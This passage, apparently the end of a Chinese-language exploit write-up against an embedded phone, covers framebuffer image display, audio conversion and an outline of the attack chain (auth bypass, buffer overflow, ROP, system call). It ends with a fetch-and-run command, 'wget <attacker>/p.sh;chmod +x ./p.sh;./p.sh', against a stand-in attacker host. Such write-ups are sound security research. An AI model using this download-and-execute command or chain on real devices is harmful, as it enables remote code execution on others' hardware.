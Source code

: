 首先，我们需要获取屏幕的规格，可以通过使用dmesg来找到：  
```
192.168.1.100 # dmesg | grep -i frame
BCMRING_PRAXIS_3_bootmemheap_calc_fb_mem: Reserving memory for frame buffer w:320 h:240 bpp:2 x 2 (614400 bytes)
LcdHeapSize: framebuffer rounded up to page size = 614400 = 0x96000 bytes
```  
  
这里我们可以看到屏幕是rgba格式，大小为320x240。现在我们只需安装imagemagick，然后我们就可以转换所有的酷炫PNG以与屏幕兼容：  
```
sudo apt install graphicsmagick-imagemagick-compat
convert input.png -depth 8 rgba:output_image.rgb
```  
  
将output_image.rgb发送到电话并运行此命令将显示图像：  
```
cat /path/to/output_image.rgb > /dev/fb0
```  
  
第二部分是播放音乐。为此，我们发现设备上已经有一个叫做pxcon的工具。这可以接收一个.wav文件，并通过它拥有的任何扬声器在设备上播放。  
```
192.168.1.100 # pxcon > write 1 0 /etc/pathtowav.wav
```  
  
.wav文件需要是16位小端格式才能播放。  
  
使用这个ffmpeg命令将你最喜欢的歌曲转换成为你漏洞利用的一部分：  
```
ffmpeg -i input.mp3 -acodec pcm_s16le -ar 16000 -ac 1 output.wav
```  
  
所以我们的最终漏洞利用看起来像这样：  
1. 触发会话续订  
  
1. 使用POST认证绕过  
  
1. 触发缓冲区溢出  
  
1. 使用EXTERNAL段绕过free调用  
  
1. 使用我们的ROP链设置正确的寄存器  
  
1. 使用我们的负载调用system  
  
1. 负载将下载一张图片和一首歌并在设备上播放  
  
进入system的最终调用如下：wget <attacker>/p.sh;chmod +x ./p.sh;./p.sh;rm p.sh。  
  
注意：音量可能有点大（是的，屏幕上还在背景中弹出各种Windows计算器的窗口）  
  
  
  
- END -  
  
  
